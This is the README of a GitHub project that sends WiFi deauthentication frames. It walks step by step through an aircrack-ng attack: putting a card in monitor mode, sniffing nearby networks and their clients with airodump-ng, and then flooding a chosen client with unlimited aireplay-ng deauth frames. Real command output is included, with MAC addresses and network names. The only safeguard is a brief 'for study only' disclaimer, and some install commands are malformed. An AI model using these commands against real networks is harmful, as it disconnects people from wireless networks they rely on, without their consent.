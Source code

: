[![GitHub issues](https://img.shields.io/github/issues/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/issues)
[![GitHub forks](https://img.shields.io/github/forks/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/network)
[![GitHub stars](https://img.shields.io/github/stars/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/stargazers)

# Introduction
Wifi deauthentication attack allows attackers to send frames from an access point to a station,even though the attack is not in the network.

Actually, send deauthentication frame is a normal functionality on all routers, almost all routers need to send special frames to inform rogue station to get out of network.

# Requirement
1. aircrack-ng
    ```
    su apt-get install aircrack-ng
    ```
    
2. ifconfig
    ```
    su apt-get install net-tools
    ```

3. iwconfig
    ```
    su sudo apt install wireless-tools
    ```

4. mac_address.csv

    the *mac_address.csv* contains OUI(Orgnazition Unique identifier)s and corresponds company names. first column is OUI and second column is Company.
    
    format:
    ```
    oui,company
    xx:xx:xx,xxx
    xx:xx:xx:x,xxx
    ```
    
    I downloaded *mac_address.csv* from [https://macaddress.io/database/macaddress.io-db.csv](https://macaddress.io/database/macaddress.io-db.csv), edit the file to only contain *oui* and *company* column,rename the file to *macaddress.csv*. then move the *macaddress.csv* file into the same directory as *deauth.py*.
    

# The Core Concept

This project completely builds on `aircrack-ng` package. below is core steps how to pose a deauthentication attack on the shell.

1. check the wireless interface name

    ```
    iwconfig
    ```
    **output:**
    ```
    eth0      no wireless extensions.
    wlan0     IEEE 802.11  ESSID:"Tenda_5A1D80"  
              Mode:Managed  Frequency:2.427 GHz  Access Point: B4:0F:3B:5A:1D:81   
              Bit Rate=135 Mb/s   Tx-Power=22 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
              Link Quality=50/70  Signal level=-60 dBm  
              Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
              Tx excessive retries:0  Invalid misc:25   Missed beacon:0
    lo        no wireless extensions.
    ```

2. put wireless interface into monitor mode

    ```
    airmon-ng start wlan0
    ```
    **output:**
    ```
    Found 3 processes that could cause trouble.
    Kill them using 'airmon-ng check kill' before putting
    the card in monitor mode, they will interfere by changing channels
    and sometimes putting the interface back in managed mode
      PID Name
      501 NetworkManager
      598 wpa_supplicant
      643 dhclient
    PHY	Interface	Driver		Chipset
    phy0	wlan0		iwlwifi		Intel Corporation Wireless 3165 (rev 79)
    		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
	    	(mac80211 station mode vif disabled for [phy0]wlan0)
    ```

3. check the wireless interface name again

    Normally, the step2 will change the wireless interface's name. in the majority of cases, it will append `mon` on the previous name's end.
    ```
    iwconfig
    ```
    **output:**
    ```
    wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=0 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    eth0      no wireless extensions.
    lo        no wireless extensions.
    ```

4. sniff data on traffics
    ```
    airodump-ng wlan0mon
    ```
    **output:**
    ```
    CH  4 ][ Elapsed: 0 s ][ 2019-12-27 07:47                                         
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    B4:0F:3B:5A:1D:81  -56        3        0    0   4  270  WPA2 CCMP   PSK  Tenda_5A1D80
    FC:7C:02:3E:9C:33  -79        3        0    0   3  130  WPA2 CCMP   PSK  ChinaNet-YhfA
    94:D9:B3:01:99:32  -79        1        0    0   1  270  WPA2 CCMP   PSK  TP-LINK_9932
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe
    B4:0F:3B:5A:1D:81  88:78:73:D9:D4:BF  -34    0 - 6e     0        1
    94:D9:B3:01:99:32  1C:C3:EB:26:25:45  -81    0 - 1      0        2
    FC:7C:02:3E:9C:33  5C:CF:7F:33:56:78  -81    0 - 1      0        4
    ```


5. sniff data on specific network traffic

    ```
    airodump-ng -d B4:0F:3B:5A:1D:81 -c 4 wlan0mon
    ```
    **output:**
    ```
    CH  4 ][ Elapsed: 0 s ][ 2019-12-27 07:52                                         
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    B4:0F:3B:5A:1D:81  -51   0       11      117    0   4  270  WPA2 CCMP   PSK  Tenda_5A1D80
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe   
    B4:0F:3B:5A:1D:81  78:0F:77:89:FD:58   -1   54 - 0      0        2 
    B4:0F:3B:5A:1D:81  E0:37:BF:C7:11:F3  -70    0 -24e     0        3   
    B4:0F:3B:5A:1D:81  74:B5:87:DB:84:5F  -68    0e-36      0       20       
    B4:0F:3B:5A:1D:81  88:78:73:D9:D4:BF  -34    0 - 1e     0      109       
    ```

6. send deauthentication frames

    ```
    aireplay-ng --deauth 0 -a B4:0F:3B:5A:1D:81 -c 78:0F:77:89:FD:58 wlan0mon
    ```
    **output:**
    ```
    07:54:33  Waiting for beacon frame (BSSID: B4:0F:3B:5A:1D:81) on channel 4
    07:54:34  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|55 ACKs]
    07:54:34  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|59 ACKs]
    07:54:35  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|59 ACKs]
    07:54:35  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 1|53 ACKs]
    07:54:36  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|51 ACKs]
    07:54:37  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|56 ACKs]
    07:54:37  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:38  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:38  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:39  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 2|54 ACKs]
    ```

# How to use deauth.py
1. download deauth

    ```
    su apt-get wget 
    ```
    
2. run it with python3.x

    ```
    python3 deauth.py
    ```

# Disclaimer
Don't use this project to do any illegal things. it's only used for the study. responsibilities arising from the use of this project have nothing to do with the author.


